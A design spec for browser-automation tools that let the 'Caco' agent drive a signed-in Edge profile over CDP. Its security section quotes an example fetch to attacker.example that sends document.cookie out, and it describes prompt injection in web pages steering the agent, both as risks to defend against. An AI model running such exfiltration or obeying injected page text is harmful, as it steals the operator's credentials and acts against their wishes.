

# Browser Automation

## Goal

Let the Caco agent drive a **dedicated, signed-in browser profile** on the operator's behalf, so it can interact with web UIs that have no API. Primary use case: operator on a corporate Microsoft Dev Box needs the agent to update records in an internal web tool behind Entra SSO.

The browser is a separate Edge profile owned by Caco, not the operator's everyday browser. The operator signs into that profile **once**, then leaves it running; the agent attaches over CDP and stays inside that signed-in session. The operator's personal Edge profile is not touched.

Secondary use cases:
- Scrape login-walled documentation and feed into a chat session.
- Drive a local dev server during front-end work (screenshot → image-viewer for visual review).
- Walk through multi-step internal flows the operator describes in chat.

## Non-Goals

- **Not** an autonomous web crawler. Every tool call is initiated by the agent during a chat turn, observed by the operator.
- **Not** owning the browser **profile content**. Caco can launch the dedicated Edge process via the helper, but the operator owns sign-in: every interactive auth/MFA happens in the visible browser window with the operator at the keyboard.
- **Not** profile sandboxing. The whole point is to attach to a real signed-in profile.
- **Not** the operator's everyday Edge profile. Caco uses a dedicated one and the operator signs into it explicitly.
- **Not** parallel browser sessions, mobile emulation, network interception, recording flows for replay.
- **Not** multi-tab orchestration. v1 operates on a single working tab. Pages that open new tabs (`target="_blank"`, `window.open`) leave the new tab unmanaged; agent's snapshot continues to reflect the working tab.

## Design

### Architecture

```mermaid
sequenceDiagram
    participant Op as Operator
    participant Edge as Edge (--remote-debugging-port=N, dedicated profile)
    participant Caco as Caco server
    participant Agent as Chat agent

    Op->>Edge: helper launches once; operator signs into work apps
    Op->>Caco: starts chat, asks for browser task
    Agent->>Caco: caco_browser_snapshot
    Caco->>Edge: CDP: Accessibility.getFullAXTree
    Edge-->>Caco: a11y tree
    Caco-->>Agent: text outline of interactive elements
    Agent->>Caco: caco_browser_action click
    Caco->>Edge: CDP: input event
    Edge-->>Caco: ok
    Caco-->>Agent: { ok: true }
    Agent->>Op: "Done. Screenshot:" + image-viewer link
```

Caco bundles `puppeteer-core` (~3MB code + ~10MB `devtools-protocol` types, the latter dev-only weight) for the CDP client. No Chromium is downloaded.

### Browser launch (operator does this once per workstation)

```powershell
# Windows (primary target)
& "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" `
  --remote-debugging-port=9222 `
  --user-data-dir="$env:USERPROFILE\.caco\browser-profile"
```

```bash
# Linux Dev Box / Arch (secondary)
msedge --remote-debugging-port=9222 \
       --user-data-dir="$HOME/.caco/browser-profile"
```

**On first launch the profile is empty.** Operator signs into every work app once. Cookies, SSO state, MFA device-bind keys, and conditional-access compliance markers persist in `.caco/browser-profile` across restarts of that helper-launched Edge. The operator's normal Edge profile is unaffected.

Caco ships `scripts/start-browser.ps1` (primary) and `scripts/start-browser.sh` (Linux). The helper:
1. Resolves the Edge executable.
2. Picks a port: tries 9222; if in use, opens it (existing Caco-profile Edge is reattached) **only if** `~/.caco/browser-profile/DevToolsActivePort` is current. Otherwise picks a fresh port to avoid attaching to an unknown browser.
3. Writes the chosen port to `<STORAGE_ROOT>/browser-config.json`.
4. Execs Edge.

### Browser visibility modes

The helper takes a `--mode` argument controlling how Edge renders. The dedicated profile is shared across modes — switching modes only changes how the window is presented.

| Mode | Helper flag | Behavior |
|---|---|---|
| `visible` (default) | (none) | Full Edge window. Operator can watch and intervene. Required for first-time sign-in and MFA. |
| `hidden` | `--start-minimized` | Window exists but minimized to taskbar. All capabilities; minimal screen interruption. |
| `headless` | `--headless=new` | No window. Background process only. Lowest resources; cannot interactively do MFA without switching modes. |

Recommended lifecycle:



Caco itself is mode-agnostic; the CDP behavior is identical. Only the operator's helper invocation differs.

### Configuration

Path: `<STORAGE_ROOT>/browser-config.json` where `STORAGE_ROOT = process.env.CACO_HOME || ~/.caco` (matches `src/storage-paths.ts:14`).

```json
{
  "cdpUrl": "http://127.0.0.1:9222",
  "defaultTimeoutMs": 10000,
  "evalEnabled": false,
  "evalOriginAllowlist": [],
  "authOriginAllowlist": []
}
```

- `cdpUrl` — Caco binds only to `127.0.0.1` and validates the URL host is loopback.
- `evalEnabled` — `caco_browser_eval` is **off by default** (see B3 in Considerations). Operator must explicitly flip this.
- `evalOriginAllowlist` — when eval is enabled, only allowed if the current page origin is in this list.
- `authOriginAllowlist` — origins that, when navigated to, surface `auth_required` (typically `login.microsoftonline.com` etc).

Screenshot output goes to `<STORAGE_ROOT>/browser-screenshots/`. No `~` literal anywhere — paths are computed.

### Tools

All prefixed `caco_browser_`. All tools share one envelope:

```ts
type ToolResult<T> =
  | { ok: true; data: T }
  | { ok: false; reason: ErrorReason; message: string; snapshot?: string };

type ErrorReason =
  | 'not_connected'   // CDP unreachable
  | 'launch_failed'   // helper script failed; diagnostics field has details
  | 'not_found'       // selector / id missed
  | 'not_visible'     // element exists but unclickable
  | 'timeout'         // action did not complete in time
  | 'auth_required'   // navigated into an auth domain
  | 'browser_busy'    // another session holds the mutex
  | 'eval_disabled'   // caco_browser_eval called with evalEnabled=false
  | 'eval_origin_blocked'
  | 'eval_error'      // expression threw or returned unserializable
  | 'frame_dialog_open'  // an open JS dialog must be handled first
  | 'invalid_args';   // tool-arg validation failure
```

On `not_found` and `not_visible` the result includes a fresh `snapshot` so the agent can recover in one call.

#### caco_browser_snapshot

Returns an accessibility outline of the current page — the agent's primary perception.

Parameters:
- `tabIndex?: number` — default: active tab.
- `rootSelector?: string` — restrict to a subtree. Useful for large pages.
- `maxNodes?: number` — default 200, hard cap 1000.

Returns `data: { outline: string, frameCount: number, truncated: boolean }`. Outline format:

```
[1] button "Submit" #submit-btn
[2] input "Email" name=email
[3] iframe "ServiceNow form" >>>
  [3.1] button "Save" #snw-save
  [3.2] input "Subject" name=subject
[4] heading "Sign in"
```

Child frames are walked and prefixed with `>>>`. IDs are flat, dotted for clarity inside frames, stable for the lifetime of the page. They re-number on `navigate` or after the page mutates between snapshots — the agent should call `snapshot` again after any state-changing action before targeting by id.

#### caco_browser_action

One verb, discriminated by `action`. Shadow-DOM selectors use `>>>` between segments.

Parameters:
- `action`: see table below.
- `target`: `{ id: number }` from the latest snapshot, or `{ selector: string }`.
- `value?`: required for `type`, `select`, `press_key`, `upload`.
- `timeoutMs?` — default from config.

| action | semantics | CDP/puppeteer-core call |
|---|---|---|
| `click` | scroll into view, dispatch real mouse event, then dispatch DOM click as fallback | `ElementHandle.click({ delay: 0 })` |
| `type` | focus target, select-all, delete, then send keys (per-keystroke events fire so React onChange handlers run) | `ElementHandle.focus()` + `Keyboard.press('Backspace')` + `Keyboard.type(value)` |
| `select` | `<select>` only; `value` matches the option's `value` attribute. To match by visible text use `eval`. Multi-select not supported in v1. | `Page.select(selector, value)` |
| `check` / `uncheck` | for `input[type=checkbox]`; idempotent (no-op if already in target state) | property set + `change` event dispatch |
| `hover` | scroll into view then `Input.dispatchMouseEvent` `mouseMoved` | `ElementHandle.hover()` |
| `press_key` | global key press, not focused on `target` (target field used only to determine which frame to dispatch into); `value` uses puppeteer-core `KeyInput` names (`Enter`, `Tab`, `Escape`, `ArrowDown`, etc) | `Keyboard.press(value)` |
| `upload` | `<input type=file>` only; `value` is an absolute file path on the Caco host | `ElementHandle.uploadFile(value)` |

Pre-conditions for every action: target is found, target is visible (occluded-by-sticky-header → tool scrolls and retries once, then returns `not_visible`), no open JS dialog (else `frame_dialog_open`).

#### caco_browser_ensure_running

Idempotent helper. If a CDP-reachable Edge already runs and matches the configured `cdpUrl`, no-op. Otherwise spawn the helper script (detached) and wait up to `defaultTimeoutMs` for `cdpUrl` to come up.

Parameters: `{ mode?: 'visible' | 'hidden' | 'headless' }`. Defaults to `visible` so first runs allow operator sign-in.

Returns `data: { cdpUrl: string, started: boolean, actualMode: 'visible' | 'hidden' | 'headless' | 'unknown', diagnostics: string }`. `started: false` means Edge was already up (`actualMode` reflects the helper's last-recorded mode, or `unknown` if launched outside the helper). `started: true` means the helper was just executed; `diagnostics` is the helper's captured log output (empty on success, useful when `launch_failed`).

Notes:
- Helper detaches via `Start-Process` (Windows) or `setsid` (Linux); the shell the agent invokes from can exit immediately.
- If Edge is already up in a different mode (e.g., `visible`) and the agent asks for `headless`, this tool returns the existing connection unchanged. Mode is only honored on first launch; switching modes requires the operator to close Edge first.
- Agent typically calls this once at the top of a browser flow; subsequent tools tolerate `not_connected` and the agent can call `ensure_running` again as recovery.

#### caco_browser_navigate

Parameters: `{ url: string, waitUntil?: 'load' | 'domcontentloaded' | 'networkidle' }`. Default `waitUntil: 'load'`.

Returns `data: { title: string, finalUrl: string }`.

#### caco_browser_eval

**Off by default.** Escape hatch.

Parameters: `{ expression: string, timeoutMs?: number }`. Returns `data: { result: unknown }`.

Required preconditions checked in order:
1. `evalEnabled === true` in config, else `eval_disabled`.
2. The current top-frame origin is in `evalOriginAllowlist`, else `eval_origin_blocked`.
3. Expression evaluates in <`timeoutMs`. JSON-serializable result returned; thrown errors and circular returns become `eval_error` with the error message.

#### caco_browser_screenshot

Parameters: `{ fullPage?: boolean, clipSelector?: string }`.

Writes PNG to `<STORAGE_ROOT>/browser-screenshots/<sessionId>-<unix-ms>.png`. Returns `data: { path: string, width: number, height: number }`. Agent typically formats `[Screenshot](/?applet=image-viewer&path=<path>)` in its reply.

### Frames, shadow DOM, and dialogs

v1 behavior:
- **iframes:** `snapshot` walks child frames recursively. `action` resolves selectors across frames using puppeteer-core's frame search (slow on pages with many frames; we accept this for v1).
- **Shadow DOM:** selectors support `>>>` between segments (`.host >>> button.submit`). `snapshot` enters shadow roots only for open shadow trees (CDP cannot reach closed ones).
- **JS dialogs:** Caco installs a `Page.javascriptDialogOpening` handler that auto-dismisses (clicks Cancel) and logs a warning to the chat as a synthetic event. Tools called while a dialog is open return `frame_dialog_open` until the handler runs. `beforeunload` dialogs are accepted automatically on navigate to allow agent-initiated navigations.

### File downloads

**Out of scope for v1.** Listed in Follow-ups. v1 does not call `Browser.setDownloadBehavior`, so downloads trigger Edge's default behavior (save-as dialog on Windows, prompt on Linux). Agent cannot programmatically read the saved file. Operator can manually retrieve and feed back into chat.

### auth_required detection

`browser-connection.ts` subscribes to `Page.frameNavigated` for the top frame on connect. When the navigation host matches any entry in `authOriginAllowlist`, a flag is set. The **next** tool call that would touch the page short-circuits with `auth_required` + the current URL; the flag clears once the operator-driven navigation lands back on a non-auth origin. (Choosing "next call" rather than "current call" because the navigation may happen between tool calls.) XHR-based auth challenges that do not navigate the top frame are not detected in v1; the agent will see partial / 401 page state and surface that to the operator.

### Concurrency: explicit mutex

Two chat sessions invoking browser tools share one CDP connection. Puppeteer-core does **not** serialize operations, so we add an explicit `Mutex` in `browser-connection.ts`:

- Every tool acquires the mutex for the duration of its CDP work (snapshot, action, navigate, screenshot, eval).
- If the mutex is already held, the second caller waits up to `defaultTimeoutMs` then returns `browser_busy`.
- The mutex protects against interleaved input events and racing `waitForNavigation` listeners. It does not pretend to give per-session tab isolation — see Follow-ups.

### Connection lifecycle

- Lazy-connect on first browser tool call per Caco process.
- Cache the connection. On any tool call that fails with `not_connected`, invalidate the cache so the *next* call reconnects (don't retry inside the same call — that hides operator-driven browser restarts behind silent latency).
- On WS drop mid-call, attempt one reconnect in that call. If that fails, invalidate cache and return `not_connected`.

## Implementation hooks

For the implementer:

- **Tool factory pattern.** Create `src/browser-tools.ts` exporting `createBrowserTools(sessionRef: SessionIdRef | undefined, queueCacoEvent: ...)`. Follow `src/applet-tools.ts:317` (`createAppletTools`). Register in `server.ts:206-222` next to `appletTools`, and include in the spread on `server.ts:222`.
- **Connection module.** `src/browser-connection.ts` owns the singleton connection + mutex + dialog handler + auth-flag.
- **Snapshot formatter.** `src/browser-snapshot.ts` is a pure function `(axTree, opts) => { outline, truncated }`. Unit-tested with recorded CDP fixtures (no live browser needed).
- **Helper scripts.** `scripts/start-browser.ps1` and `scripts/start-browser.sh`. Read `STORAGE_ROOT` the same way the rest of the codebase does (env-overridable).
- **Config loader.** Centralize in `src/browser-config.ts`. Default values applied if file missing.
- **Pin.** `puppeteer-core` pinned to a specific version in `package.json` (no `^` carat). Note in spec comments which Edge versions it targets; upgrade intentionally.
- **Tests.** Unit tests for snapshot formatter (fixture-based) and config loader. No live-browser tests in CI — too flaky. Manual acceptance run by operator.

## Divisibility

The spec is naturally three slices, each shippable on its own:

1. **Read-only slice:** `caco_browser_navigate` + `caco_browser_snapshot` + `caco_browser_screenshot`. Useful for scraping logged-in docs and visual debugging. Lowest blast radius — no writes to corporate systems.
2. **Interactive slice:** `caco_browser_action`. Adds the ability to mutate. Requires the mutex and auth_required detection from slice 1.
3. **Escape hatch:** `caco_browser_eval`. Off by default. Operator opts in per-workstation after living with the lower-risk slices.

Recommend shipping slice 1 first, exercising it against real corporate apps, then slice 2 once selector patterns are understood. Slice 3 only if slice-2 verbs prove insufficient.

## Considerations

### Why not bundle full puppeteer (with Chromium)?

Downloads ~170MB of Chromium per install. Cannot reuse the operator's signed-in profile. We'd be no better than the docs-only option.

### Why not Playwright?

Heavier; oriented around managed browser lifecycle. Our model — attach to a long-lived operator-owned browser — fits puppeteer-core more naturally.

### Why a11y tree as primary perception, not DOM?

The DOM is noisy. The a11y tree is exactly the elements the page exposes as interactive, with semantic roles. Most modern browser-automation agents (Playwright trace mode, OpenAI Operator, Anthropic Computer Use) have converged on a11y-tree snapshots for this reason.

### Why agent-launchable but operator-signed-in?

The agent **can** spawn the browser via `caco_browser_ensure_running` (one detached subprocess); it **cannot** sign in to corporate apps. The split reflects two different boundaries:

1. **Process lifecycle is fine for the agent.** Running a shell command to launch a detached process is something the agent already does via its bash tool; the dedicated helper just makes it idempotent and CDP-aware.
2. **Authentication must be the operator.** First-time MFA, conditional access compliance prompts, device-bind keys — these require a human at the keyboard. The agent surfaces `auth_required` and stops; the operator handles the prompt.

Profile-lock concerns are real but mitigated by the helper checking `DevToolsActivePort` before launch and picking a fresh port if the existing browser is unrecognized.

### Security model

- Caco connects only to `127.0.0.1`. The launch helper enforces this; the connection module re-validates.
- CDP gives full control of the browser, including all cookies in the attached profile. Anyone who can reach `127.0.0.1:<port>` can drive the browser. Single-user workstation: low risk. Shared host: don't enable this feature.
- **`caco_browser_eval` is a cross-app credential primitive.** With the agent attached to a profile authenticated to every corporate web app, eval lets an injected prompt run `fetch('https://attacker.example/', { credentials: 'include', body: document.cookie })` or silently call privileged endpoints. Mitigations in v1:
  - **Off by default.** `evalEnabled: false` in shipped config.
  - **Origin allowlist.** Even when enabled, eval refuses unless the current top-frame origin is in `evalOriginAllowlist`.
  - **Logged synthetic event.** Every eval call emits a `caco.browser.eval` event so the operator sees it in the session timeline.
- Prompt-injection in a rendered page can drive `navigate` / `click` / `type`. The operator sees every navigation and screenshot in chat. No structural defense; mitigated by observation. `auth_required` heuristic catches obvious redirect-to-attacker-IDP cases.

### Concurrency model

Two sessions share one browser. The mutex (see Design) prevents interleaved CDP commands but not interleaved navigations — session A can `navigate` while session B is mid-flow. v1 accepts this; documented honestly. Per-session tabs are the v2 fix.

### Cross-platform

- Windows (primary, matches Dev Box use case).
- Linux/Arch (secondary; `msedge` from `edge-stable` AUR, falls back to chromium).
- macOS not in v1.

### Visibility modes — UX tradeoffs

| Mode | Intrusiveness | MFA handling | Resource cost | Best for |
|---|---|---|---|---|
| `visible` | High — full window on screen | Inline; respond and continue | Full GPU/compositor | Bootstrap, debugging selectors, demos, untrusted flows |
| `hidden` | Low — minimized to taskbar | Taskbar flash; click to bring forward | Full GPU/compositor (still painting) | Workstation you actively use, daily steady state once trusted |
| `headless` | None — invisible background process | Blocks; must temporarily switch back to visible | Lowest (no paint) | Dev Box you only ever tunnel to; pure agent operation |

The intrusive-but-can-do-anything option is `visible`. The low-friction option for a Dev Box is `headless`; for a workstation you actively use, `hidden`. The dedicated profile is the same on disk regardless of mode, so switching is free.

## Code Analysis

### Files added

- `src/browser-tools.ts` — tool registration. Factory matches `src/applet-tools.ts:317` signature.
- `src/browser-connection.ts` — CDP singleton, mutex, dialog handler, auth flag.
- `src/browser-snapshot.ts` — pure a11y-tree formatter.
- `src/browser-config.ts` — config loader with defaults; reads `<STORAGE_ROOT>/browser-config.json`.
- `scripts/start-browser.ps1` — operator launcher (Windows).
- `scripts/start-browser.sh` — operator launcher (Linux).
- `docs/guides/browser-automation-quickstart.md` — operator-facing setup guide.
- `tests/unit/browser-snapshot.test.ts` — fixture-based snapshot formatting tests.
- `tests/unit/browser-config.test.ts` — defaulting and `CACO_HOME` override tests.

### Files modified

- `server.ts` lines 206-222 — instantiate `createBrowserTools(sessionRef, queueCacoEvent)` and add to the returned tools array on line 222.
- `package.json` — add `puppeteer-core` (pinned).
- `knip.json` — verify puppeteer-core not flagged.

### Wire size

- Installed: `puppeteer-core` ~3MB, `devtools-protocol` ~10MB (mostly TypeScript types), `ws` already present transitively. Net add: ~13MB on disk, ~2-3MB JS shipped.
- Caco's own code: ~600 lines plus tests.

## Risks and Mitigations

| Risk | Likelihood | Mitigation |
|------|-----------|------------|
| Operator forgets to launch Edge with debugging port. | High | First tool call returns `not_connected` with exact helper command. |
| Operator forgets they're signed-in to a *dedicated* profile, gets surprised when their normal Edge looks different. | High | Quickstart doc leads with "this is a separate profile, not your everyday Edge." Helper script names the dir `caco-browser-profile` to be unambiguous. |
| Edge updates change CDP behavior. | Low | Pin `puppeteer-core` version; upgrade intentionally and test against current Edge. |
| Profile gets corrupted (Edge crash mid-write). | Low | Operator deletes `.caco/browser-profile`, runs helper, re-signs in. |
| Two sessions race on the browser. | Medium | Mutex prevents CDP-level interleaving. Concurrent navigations remain operator-visible; documented as v1 limitation. |
| `caco_browser_eval` misused as primary verb. | Medium | Off by default. Tool description discourages. Logged event per call. |
| Snapshot of huge page bloats context. | Medium | `maxNodes` cap (default 200, max 1000); `rootSelector` to narrow scope; `truncated` flag in result. |
| Connection leaks on Caco crash. | Low | puppeteer-core `disconnect` releases nothing held inside Edge; next process start reconnects cleanly. |
| Operator's Entra session expires; agent clicks blindly. | Medium | `auth_required` flag flips on `Page.frameNavigated` to an `authOriginAllowlist` host; next tool call surfaces. |
| Cross-app cookie exfiltration via eval. | Medium-High | Eval off by default; origin allowlist; logged event; documented. (B3) |
| iframe-heavy enterprise app (D365, ServiceNow) returns empty snapshot. | Medium | snapshot recurses frames; `rootSelector` lets agent narrow. Documented. |
| Page opens JS dialog and wedges all subsequent calls. | Medium | Auto-dismiss handler; tools return `frame_dialog_open` while one is open. |
| Download button click silently saves a file the agent can't read. | Medium | Documented as v1 limitation; operator retrieves manually. Follow-up planned. |
| Helper finds port 9222 in use by an unrelated Edge instance. | Low | Helper checks `DevToolsActivePort` file; if mismatch, picks a fresh port and launches a new browser rather than attaching to an unknown one. |

## Acceptance

A new fresh chat session, on a clean install, should be able to:

1. Agent calls `caco_browser_ensure_running`. Helper launches Edge detached; tool returns `{ cdpUrl, started: true }`. Caller's shell can exit immediately; Edge keeps running.
2. Agent calls `caco_browser_navigate` to `https://example.com` (no sign-in needed). Returns title + finalUrl.
3. Agent calls `caco_browser_snapshot`. Returns outline with at least one interactive element.
4. Agent calls `caco_browser_action` with `click` and an id from snapshot. Returns `{ ok: true }`.
5. Agent calls `caco_browser_screenshot`. Path returned; operator sees post-click page via image-viewer link.
6. `not_connected` fires with useful message when Edge is killed externally; agent calls `ensure_running` again and recovers without Caco restart.
7. **Interleaved-call test:** two chat sessions concurrently issue `snapshot`; both succeed, both serialize on the mutex; the second sees `browser_busy` only if the first exceeds `defaultTimeoutMs`.
8. `caco_browser_eval` returns `eval_disabled` until operator flips config; with origin not in allowlist, returns `eval_origin_blocked`.
9. Auto-dismissed JS dialog produces a logged event; next tool call succeeds.

## Follow-ups (not v1)

- Per-session tab isolation (separate `Page` per session, eliminate cross-session navigation races).
- File download support (`Browser.setDownloadBehavior` + read-by-path).
- `caco_browser_wait_for` (wait for selector / network idle / arbitrary predicate).
- Cookie inspection / export for moving auth state between machines.
- Recording mode: operator does a flow once, Caco saves it as a replayable script.
- macOS Edge path resolution.
- Headless mode for cron/scheduled tasks where no operator interaction is needed.
- Closed-shadow-DOM traversal (requires `Runtime.evaluate` workarounds; not free).
- XHR-based auth-challenge detection (intercept `Network.responseReceived` 401s).
- Multi-select support for `<select multiple>`.
- Visible-text matching for `select` (instead of value attribute).
